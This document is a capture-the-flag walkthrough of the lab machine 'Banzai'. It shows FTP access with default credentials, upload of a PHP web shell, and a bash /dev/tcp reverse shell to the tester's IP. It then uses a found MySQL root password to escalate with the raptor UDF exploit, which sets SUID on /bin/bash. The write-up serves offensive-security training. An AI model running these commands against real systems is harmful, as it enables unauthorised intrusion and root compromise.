 # Banzai

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 -Pn 192.168.160.56
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-13 12:04 +08
Nmap scan report for 192.168.160.56
Host is up (0.17s latency).
Not shown: 65528 filtered tcp ports (no-response)
PORT     STATE  SERVICE
21/tcp   open   ftp
22/tcp   open   ssh
25/tcp   open   smtp
5432/tcp open   postgresql
8080/tcp open   http-proxy
8295/tcp open   unknown
```

### FTP Weak Creds --> RCE

The FTP service has weak credentials of `admin:admin`:

```
$ ftp 192.168.160.56
Connected to 192.168.160.56.
220 (vsFTPd 3.0.3)
Name (192.168.160.56:kali): admin
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> passive
Passive mode: off; fallback to active mode: off.
ftp> ls
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
drwxr-xr-x    2 1001     0            4096 May 26  2020 contactform
drwxr-xr-x    2 1001     0            4096 May 26  2020 css
drwxr-xr-x    3 1001     0            4096 May 26  2020 img
-rw-r--r--    1 1001     0           23364 May 27  2020 index.php
drwxr-xr-x    2 1001     0            4096 May 26  2020 js
drwxr-xr-x   11 1001     0            4096 May 26  2020 lib
```

Within it, there seem to be web application folders. Since `index.php` is present, I placed `cmd.php` shell and tested it with the web service runnign on port 8080 and port 8295:

```
$ curl -G --data-urlencode 'cmd=id' http://192.168.160.56:8295/cmd.php
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

We now have RCE, and we can easily get a reverse shell.

{% code overflow="wrap" %}
```
$ curl -G --data-urlencode 'cmd=bash -c "bash -i >& /dev/tcp/192.168.45.191/21 0>&1"' http://192.168.160.56:8295/cmd.php
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (1314).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### MySQL Raptor --> Root

Within the machine, we find that MySQL is listening on port 3306:

```
www-data@banzai:/home/banzai$ netstat -tulpn
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:21              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:5432            0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:25              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 :::5432                 :::*                    LISTEN      -                   
tcp6       0      0 :::25                   :::*                    LISTEN      -                   
tcp6       0      0 :::8295                 :::*                    LISTEN      -                   
tcp6       0      0 :::8080                 :::*                    LISTEN      - 
```

When checking which user was running it, I found that it was the `root` user:

{% code overflow="wrap" %}
```
www-data@banzai:/home/banzai$ ps -elf | grep mysql
5 S root       799     1  0  80   0 - 280746 -     00:01 ?        00:00:00 /usr/sbin/mysqld --daemonize --pid-file=/var/run/mysqld/mysqld.pid
```
{% endcode %}

Conveniently, MySQL creds were also present within the machine:

```
www-data@banzai:/var/www$ cat config.php
<?php
define('DBHOST', '127.0.0.1');
define('DBUSER', 'root');
define('DBPASS', 'EscalateRaftHubris123');
define('DBNAME', 'main');
?>

www-data@banzai:/var/www$ mysql -u root -pEscalateRaftHubris123
mysql> select @@version;
+-----------+
| @@version |
+-----------+
| 5.7.30    |
+-----------+
1 row in set (0.00 sec)
```

I wanted to use the UDF Raptor exploit, but we first need to find the Plugins directory and whether there are any protections over the files:

```
mysql> SHOW VARIABLES LIKE "secure_file_priv";
+------------------+-------+
| Variable_name    | Value |
+------------------+-------+
| secure_file_priv |       |
+------------------+-------+
1 row in set (0.01 sec)

mysql> SHOW VARIABLES LIKE 'plugin_dir';
+---------------+------------------------+
| Variable_name | Value                  |
+---------------+------------------------+
| plugin_dir    | /usr/lib/mysql/plugin/ |
+---------------+------------------------+
1 row in set (0.00 sec)
```

The above means that it is vulnerable!

{% embed url="https://www.exploit-db.com/exploits/1518" %}

This method exploits the access that the `root` user has over the system using MySQL, which allows for malicious shared objects to be loaded and gives an attacker RCE as `root` using the MySQL instance.&#x20;

First, compile the exploit accordingly on the machine itself:

```bash
gcc -g -c 1518.c
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so 1518.o -lc
chmod 777 raptor_udf2.so
```

Then, transfer the shared object to the machine and run the following commands in MySQL:

```sql
use mysql;
create table foo(line blob);
insert into foo values(load_file('/tmp/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
select * from mysql.func;
```

Afterwards, we can just execute a command as `root`:

```
mysql> select do_system('chmod u+s /bin/bash');
+----------------------------------+
| do_system('chmod u+s /bin/bash') |
+----------------------------------+
|                                0 |
+----------------------------------+
1 row in set (0.00 sec
```

We can then easily get a `root` shell:

![](<../../../.gitbook/assets/image (3704).png>)
